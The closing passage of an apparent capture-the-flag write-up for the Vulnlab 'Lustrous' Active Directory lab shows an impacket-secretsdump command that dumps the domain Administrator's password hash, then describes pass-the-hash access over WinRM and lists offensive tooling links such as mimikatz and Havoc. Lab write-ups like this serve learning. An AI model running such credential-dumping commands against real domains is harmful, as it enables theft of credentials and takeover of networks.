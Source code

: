 ```
└─$ impacket-secretsdump lustrous.vl/'LUSDC$'@lusdc.lustrous.vl -hashes aad3b435b51404eeaad3b435b51404ee:[...snip...] -just-dc-user Administrator

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::
```

Now that we have the Administrator's NT hash, we can now use that to authenticate via WinRM to the DC!

![](/images/vulnlab/lustrous-vl/j.jpg)

We can now access the Administrator's Desktop directory to view the root flag, in `C:\Users\Administrator\Desktop\root.txt`. This means we have successfully completed this chain!

![](/images/vulnlab/lustrous-vl/k.jpg)

# Conclusion

I will say that despite needing to get a nudge from a few of the other writeups, I learned a lot from this chain. Like I said before, I didn't know you could create silver tickets to HTTP or really a lot of other services. I know for next time I do an AD box similar to this, I'll use this experience to check out a few other avenues. Big thanks to xct for the development of this machine - it helped me learn way more than I knew before.

# Resources

https://hashcat.net/wiki/doku.php?id=example_hashes
https://github.com/BloodHoundAD/BloodHound
https://github.com/HavocFramework/Havoc
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords
https://github.com/ParrotSec/mimikatz
https://github.com/skelsec/pypykatz
https://thebinary0x1.medium.com/lustrous-vulnlab-walkthrough-f314f8b86134
https://vulndev.io/2021/12/27/lab-lustrous-walkthrough/
https://docs.axway.com/bundle/axway-open-docs/page/docs/apigtw_kerberos/kerberos_overview/index.html#:~:text=Kerberos%20authentication%20based%20on%20Simple,are%20transmitted%20in%20HTTP%20headers.
https://learn.microsoft.com/en-us/dotnet/framework/wcf/feature-details/understanding-http-authentication
https://github.com/dirkjanm/ldapdomaindump
http://rc4.online-domain-tools.com/
https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets
